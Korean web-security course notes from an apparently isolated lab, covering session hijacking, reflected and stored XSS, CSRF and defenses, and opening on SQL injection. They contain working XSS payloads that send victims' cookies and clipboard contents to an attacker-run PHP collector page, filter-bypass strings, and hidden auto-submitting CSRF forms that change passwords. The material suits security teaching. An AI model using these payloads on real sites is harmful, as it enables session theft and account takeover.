


## Web Session Attack 

- WEB Session Attack
  - WEB Session의 관리가 안전하게 이뤄지지 않을 때 공격자가 사용자의 Session을 획득하여 사용자의 권한을 도용 함

- 취약한 Session 관리
  - 사용자의 인증 정보가 저장될 때 Hash또는 암호화되어 보호되지 않음
  - 인증 정보가 취약한 계정 관리 기능을 통해 추측되거나 덮어쓰기가 가능 함
  - 세션 ID가 URL에 노출 됨
  - 세션 ID가 적절한 시간에 타임아웃 되지 않음
  - 세션 ID가 성공적인 로그인 후 교체되지 않음
  - 암호화 되지 않은 연결을 통해 세션 ID 및 증명 정보가 전송 됨

- 공격 종류
  - Brute Forcing Session Token, WEB Session Fixation, WEB Session Hijacking

#### 실습

- 웹사이트 회원가입 test02

  

- xp] wireshark 실행

- host]  test01 로 로그인

  

- xp] sniffing 하여 session ID 확보

  

- xp] 프록시 설정 후 paros 실행
- xp] test02  로 로그인


- paros Trap request

  

- 계정 정보 누른후 paros 설정

  

- 웹사이 확인

  

#### 대응책

- 대응책
  - Sniffing 공격 차단 - 강력한 보안이 필요한 경우 페이지 별 Session Cookie를 할당 함

    > 개인정보 변경 페이지 → 패스워드 재 인증
  - Session Cookie의 만료 시간을 적절히 설정 함
  - 로그 아웃을 수행한 경우 Session을 파기 함
  - Session Cookie와 클라이언트의 주소를 함께 확인 함


## XSS(Cross Site Scripting)

- XSS(Cross Site Scripting)
  - 공격 코드(Scripting)가 서버를 이용하는 클라이언트에서 실행(Cross Site)되게 만들어 클라이언트에서 비정상적인 동작이 수행되게 하는 공격

- 공격 발생 원인
  - 동적 웹 서비스에서 클라이언트로부터 전달되는 데이터를 검증 없이 받아 들일 때 발생하는 취약점

- 공격 대상 및 특징
  - 웹 서버의 서비스를 제공 받는 클라이언트

  - 웹 서버에 직접적인 피해를 일으키는 것이 아니라 웹 서버를 경유하여 클라이언트를 공격 함

    > 서버를 장악하지 않고도 사용자의 권한을 쉽게 도용할 수 있음

- 피해 범위
  - 사용자의 Cookie를 이용한 권한 도용, DOM Access, 클립보드 Access, Key Logging 등...

#### 종류

- Reflected XSS (= Non-Persistent XSS)
  - 공격자의 악성 스크립트를 대상 서버에 저장하지 않고 클라이언트에게 직접 전달하여 공격하는 형태
  - 매개변수가 응답으로 출력되는 URL등을 이용하여 매개변수에 악성 Script를 포함시켜 전달 함
  - 전달 방식 → URL, Email, 쪽지 등을 이용 함 - 장점 → 공격자의 악성 스크립트가 서버에 저장되지 않으므로 필터링을 우회할 확률이 높음
  - 단점 → 클라이언트가 직접 URL을 실행시켜야 함

- Stored XSS (= Persistent XSS)
  - 대상 서버에 저장한 악성 스크립트를 클라이언트가 요청/응답으로 전달받아 공격하는 형태
  - 입력 데이터의 검증을 수행하지 않는 HTML이 지원되는 게시판, 방명록 등을 이용 함
  - 장점 → 서버에서 필터링만 수행하지 않으면 공격 스크립트에 의해 언제든 공격이 가능 함
  - 단점 → 서버에서 필터링을 수행하면 우회하기가 쉽지 않음

#### 공격 Script

- XSS공격에 사용되는 Script
  - 클라이언트에서 실행될 수 있는 모든 언어가 공격용 Script로 사용될 수 있음

  - javascript, VBscript, ActiveX, Action Script, HTML ...

  - 주로 HTML에서 추가 요청을 발생 시킬 수 있는 TAG를 이용하여 공격 코드를 작성 함

    ```
    - <script> ... </script>
    - 
    - 
    - <div style="background-image:url( javascript:...)"></div>
    - <embed> ... </embed>
    - <iframe> ... </iframe>
    ```

#### XSS-Injection Vector 

- XSS Injection Vector
  - 서버에 공격 코드를 주입할 수 있는 위치 → XSS에 취약한 페이지

- XSS Injection Vector TEST

  - TEST용 스크립트를 입력 값으로 전달

  - TEST 스크립트가 클라이언트로 재 전달되어 실행되는지 확인

    

    

    

    

#### Reflected XSS 

- 공격 원리
  - 공격자가 악성코드를 미리 준비 함 → 악성 스크립트가 포함된 URL
  - 사회공학(SPAM mail/쪽지 등) 공격을 등으로 사용자가 선택하기를 유도 함
  - 사용자가 악성 스크립트가 포함된 URL을 클릭하면 서버에 요청이 전달 됨 
  - 서버의 취약한 페이지(클라이언트의 입력 값을 응답으로 출력 함)에서 악성 스크립트를 포함한 응답을 클라이언트에 전송 함
  - 클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함

- Reflected XSS  test

  - 공격자가 악성코드를 미리 준비 함 → 악성 스크립트가 포함된 URL

    

    ```
    악성 스크립트가 포함된 URL
    게시판 글 클릭
    http://172.16.0.111/board/board_view.php?num=1
    
    검색 창에 <script>alert("XSS TEST")</script> 넣고 (I.E)
    http://172.16.0.111/board/board_list.php?k_s=1&keyword=%3Cscript%3Ealert%28%22xss+test%22%29%3C%2Fscript%3E
    ```

  - 게시판 글을 쓴다

    ```
    XP:공격자]
    게시판에 글을 쓰고
    
    나머지는 알아서 작성하고
    내용
    --------
    간단한 이벤트에 참여 하시면 경품을 드립니다 !
    하단 링크 참조 
    <br><br>
    <a href="http://172.16.0.111/board/board_list.php?k_s=1&keyword=%3Cscript%3Ealert%28%22xss+test%22%29%3C%2Fscript%3E">클릭시 이벤트페이지로 이동</a>
    
    ```

    

  - 2003] 공격대상에서 글읽기

    

    ```
    공격자는 해당링크를 게시판/이메일/메신저 ... 으로 전달하여 상대가 클릭하도록 유도 
    사회공학(SPAM mail/쪽지 등) 공격을 등으로 사용자가 선택하기를 유도 함
    사용자가 악성 스크립트가 포함된 URL을 클릭하면 서버에 요청이 전달 됨
    서버의 취약한 페이지(클라이언트의 입력 값을 응답으로 출력 함)에서 악성 스크립트를 포함한 응답을 클라이언트에 전송 함
    클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함
    ```

#### stored XSS

- 공격 원리
  - Injection Vector에 공격 스크립트를 저장 함 → 게시물 등

    > 클라이언트의 선택을 유도할 수 있는 내용으로 작성 함

  - 클라이언트가 해당 게시물을 선택하면 서버가 악성 스크립트를 포함한 응답을 전송 함

  - 클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함

#### XSS 실제 적용

- 구성도

- 실습 환경 구성

  ```
  ┌──(root㉿kali)-[~]
  └─# systemctl restart apache2 
  ──(root㉿kali)-[~]
  └─# systemctl status apache2 
  ● apache2.service - The Apache HTTP Server
       Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
       Active: active (running) since Thu 2022-10-27 06:33:59 EDT; 1min 27s ago
  ──(root㉿kali)-[~]
  └─# netstat -antup | grep apache2 
  tcp6       0      0 :::80                 :::*                    LISTEN      1277/apache2      
  ```

  - xp -> kail 웹사이트 접속

    

- 공격대상의 정보가 기록되도록 구성 (kail)

  - 공격대상이 자신의 PHP 세션정보를 기록할 페이지를 작성

    ```
    # vim /var/www/html/getcookie.php
    
    <?php
     $fd=fopen("/tmp/cookie.dat","a+");
     while(list($key,$val)=each($_GET))
     {
       fputs($fd,$_SERVER['REMOTE_ADDR']."");
       fputs($fd,$key);
       fputs($fd,"=");
       fputs($fd,$val);
       fputs($fd,"\n"); 
     }
     fclose($fd);
    ?>
    ```

    

  - php 실행 가능한지 확인

    ```
    └─# php -v
    ```

    

- 게시판에 글을 작성 (1줄로 작성)

  - xp] daum.net 로고 이미지 링크 복사

    

    ```
    https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png
    ```

  - 이미지 링크를 게시판에 올리기

    ```
    </img>
    <script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
    ```

    

- 게시판에 공격할 글을 작성 

  ```
  </img><script>i.src="http://172.16.0.201:80/getcookie.php?cookie="+document.cookie</script>
  ```

  

- 2003] test01로 로그인후 글을 읽는다

  

- kail]  확인

  ```
  # cat /tmp/cookie.dat
  ```

  

- xp] paros 를 이용하여 PHPSSESID 를 변조

  - paros 설정

    

  - web site에서 확인

    

#### XSS 실제 적용 ll

- 접속한 사용자의 클립보드(ctrl+c)를 전송

  - xp] 게시글 작성

    ```
    </img><script>i.src="http://172.16.0.201/getcookie.php?clipboard="+clipboardData.getData("text")</script>
    ```

    

  - 2003] 메모장을 글을 대충 쓰고 복사 (영어) ctrl+c 필수

    

  - 2003] 작성한 글 읽기

    

  - kali] 확인

    ```
    # cat /tmp/cookie.dat
    ```

    

#### XSS 방어

- XSS 문제의 근원

  - 스크립트 태그의 실행

    ```
    <script></script>
    ```

- 방어의 핵심

  Server Side Validation

  - 서버에서 사용자의 입력 값을 검증 함 → str_replace( ), preg_replace() 함수 등

    > Black List 방식으로 입력되는 값을 필터링 함

    > 공격 스크립트에 사용되는 태그 또는 메타문자를 필터링 해야 함

  - 출력 값을 HTML로 Encoding 함 → htmlspecialchars(), htmlentities() 함수 등

    > 다른 Encoding을 사용한 경우 <Meta>로 사용한 encoding 방식을 명시해야 함

  - HTML 기능이 필요한 경우 최소한의 태그만 제공 함 → strip_tags() 함수 등

    > 허용하고자 하는 태그만 White List 방식으로 명시적으로 허용

  - 미리 제작된 Auto Library 설치 고려

    > AntiSamy, Java HTML Sanitizer Project, HTML Purifier(https://htmlpurifier.org)

#### stored XSS 방어 실습

- str_replace()

  ```
  <script>alert("XSS TEST");</script>
  
  <script> -> 공백으로 바꿔 
  
  결과 : alert("XSS TEST");</script>
  
  -> 게시판에 글을 쓰는 방식
  글을 입력하는 화면  : http://172.16.0.111/board/board_write.php 
  데이터베이스에 저장 : http://172.16.0.111/board/board_write_ok.php
  
  //XSS 방어
  
  $b_cont -->  <script>alert("XSS TEST");</script>
  
  str_replace(A,B,C)
  C 문자열중에 A 가 있으면 B 로 바꿀것(치환)
  
  $b_cont=str_replace("<script>","",$b_cont);
  ```

  

  - 결과

    

  - 취약점

    ```
    치환될 문자열을 미리 준비 
    
    <scr<script>ipt>alert("XSS TEST");</script>
    
    대소문자
    
    <sCRipt>alert("XSS TEST");</script>
    ```

    

    

    

    

  - < 를 치환

    ```
    $b_cont=str_replace("<","",$b_cont);
    ```

    

  - 게시판 작성해서 확인

    

    

  - 주의점

    ```
    일반적인 태그도 사용 불가 됨 조심 할것
    
    <a href="http://200.200.200.254"><p>공유기홈페이지<p></a>
    ```

    

    

- preg_replace()

  - 대소문자 상관없이 <script> 가 들아가면 치환

    ```
    $b_cont=preg_replace("/<script>/i","",$b_cont);
    ```

    

  - 게시판에 글 작성후 테스트

    

    

- htmlspecialchars(), htmlentities()

  - 출력 값을 HTML로 Encoding 함

    ```
    $b_cont=htmlspecialchars($b_cont);
    ```

    

  - 테스트

    

    

  - DB 확인

    

    > DB에는 이렇게 저장이 되어 실행이 되지 않았다

- strip_tags()

  - HTML 기능이 필요한 경우 최소한의 태그만 제공

  - white list 방식

    ```
    $b_cont= strip_tags($b_cont,"<a>,<p>");
    ```

    

  - 테스트

    

    

  - 허용하고자 하는 태그 사용 가능한지 테스트

    ```
    <a href="http://200.200.200.254"><p>공유기홈페이지<p></a>
    ```

    

    

    

- Session 보호

  - 중요 정보는 Cookie에 저장하지 않음 
  - Session Cookie와 클라이언트의 IP를 매치하여 인증 함
  - 스크립트에 의한 Cookie 접근을 차단 함 → Cookie발급 시 httponly 옵션을 부여 함

- httponly
  - XSS를 방어하기 위해 스크립트에 의한 Cookie접근을 제한하는 옵션

  - 서버 환경 설정을 통해 지정하며 Cookie를 발급할 때 옵션으로 붙임 

  - PHP → /etc/php.ini 파일에서 session.cookie_httponly = 1로 설정한 후 재 시작

    ```
    # vi /etc/php.ini
    
    1308 ; http://www.php.net/manual/en/session.configuration.php#ini.session.cookie-httponly
    1309 ; session.cookie_httponly 
    1310 session.cookie_httponly = 1
    
    cookie 로 접근하려면 무조건 http 프로토콜 다른 접근 은 불허 
    # service httpd restart 
    ```

    

  - 테스트

    ```
    이전 실습에서 document.cookie 를 이용
    ```

    

    

    > 아무 정보가 남지 않는다

## CSRF

- CSRF(Cross Site Request Forgery, XSRF)
  - 사이트 간 요청 위조 공격 → Session Riding 공격
  - 웹 사이트에서 제공하는 기능을 신뢰된 사용자의 권한으로 요청하도록 하는 공격
  - Session Hijacking과 비슷함 → 클라이언트의 권한을 도용 함

- 공격 발생 원인

  - 요청의 정상적인 경로를 확인하지 않을 때 발생

    > Referer, Anti Forgery Token, 동일-출처 정책 등으로 정상 경로로부터 전달된 것인지 확인하지 않음

- 공격 대상 및 특징

  - 서버가 공격 대상임

  - Script를 이용하지 않아도 공격 가능 함

  - Server Side Validation과 무관하게 공격 가능 함

  - 공격자를 추적하기 어려움

    > 정상 사용자의 정상 권한으로 정상 요청을 발생시키므로 공격자의 정보(IP)를 확인하기 어려움

- 피해 범위

  - 서버에서 제공되는 모든 기능이 공격의 범위가 됨
  - 공격자의 요청을 대신 수행하는 클라이언트의 권한이 높을 수록 피해의 범위가 확산 됨

#### CSRF vs XSS


- 현재 접속자의 권한으로 위조된 요청을 전송(단 접속자는 모르는 상태)
- 예) 개인정보를 임의적으로 변경

#### 실습

- 닉네임 변경과정을 paros(web proxy) 로 분석 

  - 프록시설정

  - 

  - paros 실행후 닉네임 수정

    

    

  - 변경 과정 분석

    

- 게시판에서 한번 자동으로 닉네임 변경되도록 시도 - GET

  - 게시판에 이미지 링크

    ```
    https://www.iei.or.kr/resources/images/main/main_renewal/top_logo.jpg
    ```

  - 게시판에 글 작성

    ```
    </img>
    ```

    

    

  - 다른 방식으로 이미지 등록

    ```
    </img>
    <script>i.src="https://www.iei.or.kr/resources/images/main/main_renewal/top_logo.jpg"</script>
    ```

    

    

  - 이미지 대신 우리가 원하는 닉네임으로 바꿀수 있도록 설정

    ```
    </img>
    <script>i.src="http://172.16.0.111/member/member_nick_change.php?nick=hack"</script>
    ```

    

  - 글을 읽으니 닉네임이 변경된것을 확인

    

  - 게시글에 안보이게 다시 작성

    ```
    </img>
    <script>i.src="http://172.16.0.111/member/member_nick_change.php?nick=u01"</script>
    ```

    

- 게시판에서 한번 자동으로 비밀번호가 변경되도록 시도  -  POST

  - 회원정보 변경 분석

    ```
    회원 정보 페이지
    
    http://172.16.0.111/member/member_info.php
    ```

  - 페이지 소스 보기 > 1.html 로 저장

    

  - 필요없는 태그 제거

    ```
    <!doctype html>
    <html>
    	<!-- head 부분 -->
    	<head></head>
    	<body>
    		<!-- 화면 하단 body 부분 -->
    		<div id="info_contents" class="contents">	
    		<form name="mform" method="post" action="member_info_change.php">
    			회 원 정 보
    				*이   름
    				김인기
    
    				*비밀번호
    					<input type="password" name="user_pw1" size="20" maxlength="20">	
    				*비밀번호 확인
    					<input type="password" name="user_pw2" size="20" maxlength="20">
    				나이
    					<input type="number" name="age" size="30" min="0" max="150" value=30>
    				닉네임					
    					<input type="text" name="nick" size="30" maxlength="30" value=u01>
    				EMAIL
    					<input type="text" name="email" size="30" maxlength="30" value=test01@test><
    			
    				* 는 필수 입력 항목입니다.
    				<input type="submit" value="수정">
    				<input type="reset" value="삭제">
    			
    		</form>
    		</div>
    	</body>
    </html>
    ```

    

  - 다시 필요없는 코드 삭제 및 수정

    ```
    <form name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    			회 원 정 보
    				*이   름
    				김인기
    				*비밀번호
    					<input type="text" value="222222" name="user_pw1" size="20" maxlength="20">	
    				*비밀번호 확인
    					<input type="text" value="222222" name="user_pw2" size="20" maxlength="20">
    				나이
    					<input type="number" name="age" size="30" min="0" max="150" value=30>
    				닉네임					
    					<input type="text" name="nick" size="30" maxlength="30" value=u01>
    				EMAIL
    				<input type="text" name="email" size="30" maxlength="30" value=test01@test>
    				<input type="submit" value="수정">
    				<input type="reset" value="삭제">
    	</form>
    ```

  - 위 코드로 게시판에 글 작성 후 읽기

    

  - 위 글에서 수정을 누르면 비밀 번호가 바뀐다

    

    

  - 텍스트 안보이게 수정 > 게시판 글 작성

    ```
    <form name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="text" value="222222" name="user_pw1" size="20" maxlength="20">	
    <input type="text" value="222222" name="user_pw2" size="20" maxlength="20">
    <input type="number" name="age" size="30" min="0" max="150" value=30>
    <input type="text" name="nick" size="30" maxlength="30" value=u01>
    <input type="text" name="email" size="30" maxlength="30" value=test01@test>
    <input type="submit" value="수정">
    <input type="reset" value="삭제">
    </form>
    ```

    

  - 내용이 보이지 않게 태그를 수정

    ```
    <form name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="222222" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="222222" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    <input type="submit" value="수정">
    <input type="reset" value="삭제">
    </form>
    ```

    

  - 자동으로 submit : javascript 를 이용 하여 코드 작성후 게시판에 글 작성 후 글읽기

    ```
    <form id="hack" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="444444" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="444444" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    

    

  - 회원정보 수정 화면이 안나오게 수정

    

    ```
    iframe test
    <iframe id="i" width="100" height="100"></iframe>
    <script>i.src="http://200.200.200.254/sess-bin/login_session.cgi"</script>
    ```

    

  - 위 코드를 참고하여 수정

    ```
    <iframe name="i" width="100" height="100"></iframe>
    <form id="hack" target="i" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="444444" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="444444" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    

  - 프레임을 0으로 하여 완전히 안보이게 수정

    

  - 글내용 작성 및 비밀번호 변경

    ```
    웹사이트 에 로그인이 되지 않습니다 확인 부탁 드립니다 
    <iframe name="i" width="0" height="0"></iframe>
    <form id="hack" target="i" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="777777" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="777777" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    

    

#### CSRF 보안

- 동일-출처 정책
  - 요청메시지가 서비스를 처리하는 현재 웹 서버의 페이지로부터 발생한 것인지 확인

- Referer
  - HTTP Message Header의 Referer필드 값을 통해 요청을 발생시킨 주소를 확인 함
  - Proxy등을 통해 우회 가능성이 있음
- Anti-Forgery Token
  - Referer값의 변조 가능성을 피하기 위해 임의의 값을 Form에 할당하여 요청에 포함 시킴
- 재인증
  - 중요한 정보를 처리하는 기능은 재 인증을 통해 처리되도록 함 
  - One Time Token
- 사용자 보안
  - 사이트 이용 후 반드시 로그아웃을 함

#### 실습

- paros를 이용하여 분석

  - 회원정보 변경시 그 정보가 어디서 넘어와야하는지 분석

    

- php 수정

  - member_info.php 외에 다른 곳에서 오는 변경요청은 코드를 추가하여 차단

    ```
    # vim /var/www/html/member/member_info_change.php
    
    <?php                 
    				session_start();
                    require "../dbconn.php";
      
                    if($_SERVER["HTTP_REFERER"] != "http://172.16.0.111/member/member_info_change.php"){
                             echo "<script>alert('요청의 경로가 올바르지 않습니다')</script>";
                             exit;
                     }
    
                   $pw1=$_POST["user_pw1"];
    ```

    

- 테스트

  

  


## SQL Injection

- Injection
  - 주입 공격 
  - 데이터 입력이 가능한 위치에 공격을 위한 입력 값을 주입하는 공격

- SQL Injection
  - Database에 직접적으로 전달되는 입력 값에 SQL문이나 DataBase에서 실행 가능한 명령을 삽입하여 인증 우회, Database 정보 조회, 변조, 시스템 조작 등을 수행하는 공격
  - 공격 대상 → Database Server (Database Hacking)

- 공격 발생 원인
  - Database에 전달되는 값을 적절한 검증 없이 이용하는 경우
  - Database의 값을 이용하는 서버의 기능이 취약한 로직으로 구성된 경우

- 피해 범위
  - WAS의 인증 우회, Database 정보유출/조작/파괴, System Command 실행, System의 주요 파일 노출
